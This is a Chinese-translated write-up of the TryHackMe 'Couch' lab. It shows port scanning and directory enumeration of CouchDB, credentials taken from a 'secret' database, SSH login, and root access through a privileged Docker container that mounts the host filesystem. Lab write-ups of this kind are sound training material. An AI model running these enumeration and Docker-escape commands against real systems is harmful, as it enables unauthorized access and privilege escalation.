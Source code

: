 # TryHackMe 报道—沙发

> 原文：<https://infosecwriteups.com/tryhackme-writeup-couch-a82d46bff231?source=collection_archive---------2----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这里是通过这个**沙发**挑战的记录和指南。这个 CTF 房间是由 CTF 情人为 CTF 情人设计的。

![](img/5f25e7d0addb0ac72c6262bfa7d7fcb1.png)

**房间**:[https://tryhackme.com/room/couch](https://tryhackme.com/room/couch)
**级别**:简单(初学者容易)

**任务**:在这个半引导的挑战中，黑进一个易受攻击的数据库服务器，该服务器以基于 JSON 的文档格式收集和存储数据。

# 我们开始吧

像往常一样，启动机器并在浏览器中打开 IP，但看起来端口 80 不可用

让我们运行端口扫描

```
# nmap -A -T4 -sS -sV -p- 10.10.X.X
...
...
PORT     STATE SERVICE VERSION
**22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)**
| ssh-hostkey:
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
**5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)**
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

2 个端口打开(22 和 5984)。5984 指的是 [Apache CouchDB](http://couchdb.apache.org/) 。打开 10.10.x.x:5984 显示

```
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

让我们先跑步，然后我们来回答问题

```
> feroxbuster --url http://10.10.X.X:5984/ -w ~/wordlists/dirb/big.txt -t 60 -C 404,403200        1l       80w     4808c [http://10.10.136.186:5984/_config](http://10.10.136.186:5984/_config)
200       12l      166w        0c [http://10.10.136.186:5984/_log](http://10.10.136.186:5984/_log)
405        1l        3w       60c [http://10.10.136.186:5984/_plugins](http://10.10.136.186:5984/_plugins)
200        1l      156w     4627c [http://10.10.136.186:5984/_stats](http://10.10.136.186:5984/_stats)
301        0l        0w        0c [http://10.10.136.186:5984/_utils](http://10.10.136.186:5984/_utils)
200        1l        1w      230c [http://10.10.136.186:5984/_users](http://10.10.136.186:5984/_users)
.....
.....
```

有一些可用的路径可以被访问，除了`_utils`路径外，大部分都是 JSON 输出。没关系，让我们先把问题过一遍

## 扫描机器。开放了多少个端口？

发现有 2 个端口打开(22 和 5984)

## 服务器上安装的是什么数据库管理系统？

安装的数据库管理系统是 [Apache CouchDB](http://couchdb.apache.org/)

## 数据库管理系统运行在哪个端口上？

couchDB = 5984 的端口

## 服务器上安装的管理系统是什么版本？

正如 JSON 字符串中提到的，版本是 1.6.1

## 这个数据库管理系统的 web 管理工具的路径是什么？

基于 feroxbuster 结果，`***_utils***`是正确路径

![](img/4d956c0094869cea31dbb9fb265c1c80.png)

## 在数据库管理系统的 web 浏览器中列出所有数据库的路径是什么？

参考 couchDB 文档，其明确表示 ***_all_dbs*** 路径

![](img/39829e85893290a1932b45a04d8219dd.png)

## web 管理工具中有哪些凭据？

浏览所有可用的可点击项目，并在“秘密”数据库中找到用户凭证

![](img/6a10d35822a74ee39664b272b8df2493.png)

## 危及机器安全并找到 user.txt

因为没有表单登录或任何页面来放置凭证，所以可能是 SSH 登录，因为端口 22 是打开的

```
**> ssh atena@10.10.X.X** The authenticity of host '10.10.X.X (10.10.X.X)' can't be established.
ECDSA key fingerprint is SHA256:TtfUUNS6Ivob4iQ7X414863lCCc1q2YyzzycIkRTZ3k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.X.X' (ECDSA) to the list of known hosts.
**atena@10.10.X.'s password:**Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)* Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
* Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
* Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)
Last login: Fri Dec 18 15:25:27 2020 from 192.168.85.1**atena@ubuntu**:**~**$
```

现在使用 atena 用户成功进入 Ubuntu 服务器。我们来找 user.txt。

```
> cat users.txt
THM{1ns3cure_XXXXXX}
```

真快。LOL。最后，我们来根！

## 提升权限并获取 root.txt

```
**atena@ubuntu**:**~**$ sudo -l
[sudo] password for atena:
Sorry, user atena may not run sudo on ubuntu.
```

好吧~~最容易的部分被屏蔽了。检查所有正在运行的 crontab，但不检查任何一个。让我们看看历史吧，

```
cat ~/.bash_history
```

![](img/9ba93e62a135a4a946e5f2c1f85b0077.png)

该主机中正在运行 docker。让我们运行码头

```
**> docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine**
/ # id
**uid=0(root)** gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```

好..这是根..所以我们可以在这里枚举文件，

```
> find . -name root.txt
./mnt/root/root.txt> cat mnt/root/root.txt
**THM{RCE_us1ng_XXXXXXXXXXX}**
```

这是 CTF 有史以来最快的一次。顺便说一句，我真的很喜欢 CTF..

感谢您的阅读，让我们来看看另一篇文章。🤘